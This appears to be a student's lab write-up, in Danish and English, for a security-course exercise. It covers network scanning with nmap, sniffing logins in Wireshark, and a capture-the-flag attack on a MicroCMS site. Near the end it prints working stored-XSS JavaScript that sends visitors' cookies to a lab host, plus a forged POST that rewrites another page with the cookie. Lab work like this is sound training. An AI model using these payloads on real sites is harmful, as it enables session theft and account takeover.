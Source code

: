 # Opgaver til T3 del 1

> Brug ifconfig til at finde ud af hvilket netværk I er på, og hvilke andre maskiner der potentielt kan være på samme netværk.

Først finder jeg ip.

![Ifconfig](ifconfig.png)

Derefter laver jeg en ip scan på netwærket.
Læg mærke til ip og mask da dette skal bruges igen i nmap.

![nmap efter port](nmap1.png)

Her kan jeg se at der er nogle forskellige enheder der **svarer**.

- 10.150.89.2
- 10.150.89.3
- 10.150.89.4
- 10.150.89.5
- 10.150.89.31
- 10.150.89.41
- 10.150.89.51
- 10.150.89.108
- 10.150.89.159
- 10.150.89.164

> Brug nmap til at finde andre maskiner i netværket. Prøv forskellige typer af scanninger, og evaluer hvilke informationer I får ud af det vs. hvor lang tid det tager at gennemføre scanningerne.

Først prøves en simpel fuld portscan.

![Nmap port scan](portscan.png)

Dette tog 2.19 sekunder.

Derefter prøves en stealth scan

![Nmap stealth scan](stealth.png)

Dette tog 2.45 sekunder. 
Og giver det samme resultat som en normal portscan.

> Brug nmap til at finde ud af hvilke operativsystemer der kører på de forskellige maskiner i lab'et.

Nu prøves en OS scan hvor den kigger på finger prints.
Dette gøres med `-O`.

![Os scan](os.png)

Dette tog 7.17 sekunder.
Man kan også se at den har fundet information om hvilket OS og version modtager bruger.
Det er også sjovt at se at den ikke har kunne bestemme `10.150.89.2`.

> Find en web-server (der kun er web-server).

Her kigges i resultaterne fra den sidste scan.

![Webserver scan](webserver.png)

Nu checkes der om det faktisk er en webserver der lytter.

![Webserver test](webserver_firefox.png)

Yay.

> Al trafik i lab'et kører gennem jeres Kali-maskine. Kan I finde et ikke-krypteret login et sted i trafikken? (brug Wireshark)

Login kommer tit gennem http POST request, så det kan man prøve at sortere efter i wireshark.

![Wireshark post request filter](wireshark_post.png)

> Prøv at find flaget i MicroCMS hjemmesiden - det kræver lidt kreativitet, men ingen værktøjer

Efter at have kigget lidt på de forskellige servere blev MicroCMS hjemmesiden fundet på `10.150.89.164`.

![Microcms front page](microcms_front.png)

Det ser ud til at man kan lave sider og man kan redigere sidder.
Den mest aktive ser ud til at være `Event 1` der snakker om et møde i næste uge.

Først prøver jeg at redigere `Event 1` ved at tilføje lidt tekst.
Efter redigering er testes indsættes `hej med <b>dig</b>`.

![Microcms edit bold](microcms_bold.png)

Yay det virker, så kan man måske også indsætte billeder og javascript.
Hvis der er andre der også er på siden, hvad kan man så få ud af dem?

Url'erne til at få en side har følgende format `/page.php?view=2`.
Hvad hvis man prøver nogle af de andre tal efter 2.

![Microcms Not found](microcms_404.png)

That was expected.

![Microcms forbidden](microcmd_403.png)

What if we change `view` to `edit`?

![Microcmd url](microcms_url.png)

Okay. Can we place some javascript that will send the content of this page to a webserver?
Lets start with one that sends all cookies.

```
var x = new XMLHttpRequest; x.open("GET", "http://10.150.89.5:4000/" + document.cookie, true); x.send( null )
```

This will send a GET with the cookie in the url.
On the local kali machine a webserver is started with php -S.
This will print all request send, even if they 404.

![Mini php http server](php-server.png)

Now this javascript is placed as a script tag in the `Event 1` document.

![Microcms javascript](microcms_java.png)

After waiting a short while nothing happened.
Going to try something else.
The following will edit page 11 with some data ( in this case "hej medddd dig" ).

```
var x = new XMLHttpRequest; x.open("POST", "http://10.150.89.164/page.php?edit=11", true); var f = new FormData(); f.append("title", "testi"); f.append("content", "hej medddd dig"); x.send( f )
```

Now content is replaced by document.cookie and placed in meeting thing.
